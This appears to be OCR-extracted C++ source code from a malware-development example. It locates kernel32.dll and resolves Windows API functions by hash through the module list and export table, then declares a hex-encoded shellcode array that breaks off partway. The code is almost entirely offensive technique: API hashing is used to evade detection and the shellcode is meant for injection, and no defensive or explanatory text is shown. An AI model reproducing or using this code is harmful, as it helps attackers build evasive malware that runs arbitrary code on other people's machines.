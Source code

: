 ```cpp
    mdl = (LDR_MODULE*)mdl->e[0].Flink;
    if (mdl->base != nullptr) {
      if (calcMyHashBase(mdl) == myHash) { // kernel32.dll hash
        break;
      }
    }
  } while (mlink != (INT_PTR)mdl);

  kernel32 = (HMODULE)mdl->base;
  return kernel32;
}

static LPVOID getAPIAddr(HMODULE h, DWORD myHash) {
  PIMAGE_DOS_HEADER img_dos_header = (PIMAGE_DOS_HEADER)h;
  PIMAGE_NT_HEADERS img_nt_header = 
  (PIMAGE_NT_HEADERS)(
    (LPBYTE)h + img_dos_header->e_lfanew);
  PIMAGE_EXPORT_DIRECTORY img_edt = (PIMAGE_EXPORT_DIRECTORY)(
    (LPBYTE)h + 
    img_nt_header->
    OptionalHeader.
    DataDirectory[IMAGE_DIRECTORY_ENTRY_EXPORT].
    VirtualAddress);
  PDWORD fAddr = (PDWORD)(
    (LPBYTE)h + img_edt->AddressOfFunctions);
  PDWORD fNames = (PDWORD)(
    (LPBYTE)h + img_edt->AddressOfNames);
  PWORD  fOrd = (PWORD)(
    (LPBYTE)h + img_edt->AddressOfNameOrdinals);

  for (DWORD i = 0; i < img_edt->AddressOfFunctions; i++) {
    LPSTR pFuncName = (LPSTR)((LPBYTE)h + fNames[i]);

    if (calcMyHash(pFuncName) == myHash) {
      printf("successfully found! %s - %d\n", 
      pFuncName, myHash);
      return (LPVOID)((LPBYTE)h + fAddr[fOrd[i]]);
    }
  }
  return nullptr;
}

unsigned char my_payload[] =
"\xfc\x48\x81\xe4\xf0\xff\xff\xff\xe8\xd0\x00\x00\x00\x41"
"\x51\x41\x50\x52\x51\x56\x48\x31\xd2\x65\x48\x8b\x52\x60"
"\x3e\x48\x8b\x52\x18\x3e\x48\x8b\x52\x20\x3e\x48\x8b\x72"
"\x50\x3e\x48\x0f\xb7\x4a\x4a\x4d\x31\xc9\x48\x31\xc0\xac"
"\x3c\x61\x7c\x02\x2c\x20\x41\xc1\xc9\x0d\x41\x01\xc1\xe2"
"\xed\x52\x41\x51\x3e\x48\x8b\x52\x20\x3e\x8b\x42\x3c\x48"
"\x01\xd0\x3e\x8b\x80\x88\x00\x00\x00\x48\x85\xc0\x74\x6f"
"\x48\x01\xd0\x50\x3e\x8b\x48\x18\x3e\x44\x8b\x40\x20\x49"
"\x01\xd0\xe3\x5c\x48\xff\xc9\x3e\x41\x8b\x34\x88\x48\x01"
"\xd6\x4d\x31\xc9\x48\x31\xc0\xac\x41\xc1\xc9\x0d\x41\x01"
"\xc1\x38\xe0\x75\xf1\x3e\x4c\x03\x4c\x24\x08\x45\x39\xd1"
"\x75\xd6\x58\x3e\x44\x8b\x40\x24\x49\x01\xd0\x66\x3e\x41"
"\x8b\x0c\x48\x3e\x44\x8b\x40\x1c\x49\x01\xd0\x3e\x41\x8b"
"\x04\x88\x48\x01\xd0\x41\x58\x41\x58\x5e\x59\x5a\x41\x58"
"\x41\x59\x41\x5a\x48\x83\xec\x20\x41\x52\xff\xe0\x58\x41"
"\x59\x5a\x3e\x48\x8b\x12\xe9\x49\xff\xff\xff\x5d\x49\xc7"
"\xc1\x00\x00\x00\x00\x3e\x48\x8d\x95\x1a\x01\x00\x00\x3e"
"\x4c\x8d\x85\x25\x01\x00\x00\x48\x31\xc9\x41\xba\x45\x83"
"\x56\x07\xff\xd5\xbb\xe0\x1d\x2a\x0a\x41\xba\xa6\x95\xbd"
"\x9d\xff\xd5\x48\x83\xc4\x28\x3c\x06\x7c\x0a\x80\xfb\xe0"
```